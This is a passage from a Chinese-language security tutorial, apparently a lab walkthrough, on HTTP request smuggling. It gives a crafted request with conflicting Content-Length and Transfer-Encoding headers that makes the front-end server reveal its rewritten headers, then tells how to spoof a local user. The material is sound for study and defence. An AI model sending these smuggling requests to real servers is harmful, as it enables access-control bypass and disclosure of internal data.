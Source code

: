 响应会包含下面这条<br>`&lt;input id="email" value="wiener[@normal](https://github.com/normal)-user.net" type="text"&gt;`<br>
我们可以通过HTTP请求走私攻击获得重写的结果，像这样

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...

```

请求将由前端服务器重写以包含额外的头，然后后端服务器将处理走私的请求并将重写的第二个请求视为电子邮件参数的值，像这样

```
&lt;input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...

```

由于最后的请求正在被重写，我们不知道什么时候结束。CL头中的值将决定后端服务器相信该请求的时间。如果值设置得太短，就只会收到部分重写的请求；如果设置太长，后端服务器将超时等待请求完成。解决的方法就是猜测一个比提交的请求大一点的初始值，然后逐渐增大该值直到得到所有的信息。

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E5%88%A9%E7%94%A8HTTP%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81%E5%9B%9E%E6%98%BE%E5%89%8D%E7%AB%AF%E5%AF%B9%E8%AF%B7%E6%B1%82%E9%87%8D%E5%86%99%E7%9A%84%E8%BF%87%E7%A8%8B"></a>配套靶场：利用HTTP请求走私回显前端对请求重写的过程

我们看到一个搜索框，那么这可能存在HTTP请求走私漏洞点，所以我们这样构造payload

[<img class="aligncenter" alt="" data-original="https://p4.ssl.qhimg.com/t01c1ff8e67c854ec3a.png">](https://p4.ssl.qhimg.com/t01c1ff8e67c854ec3a.png)

我们发现由前端重写的请求包会被反馈在响应中，说明我们成功通过HTTP请求走私漏洞获取到了前端服务器用来指定来源IP的字段名，我们就可以伪造成本地用户了，于是我们这样修改请求包

[<img class="aligncenter" alt="" data-original="https://p2.ssl.qhimg.com/t013c68cef1e7cffd33.png">](https://p2.ssl.qhimg.com/t013c68cef1e7cffd33.png)

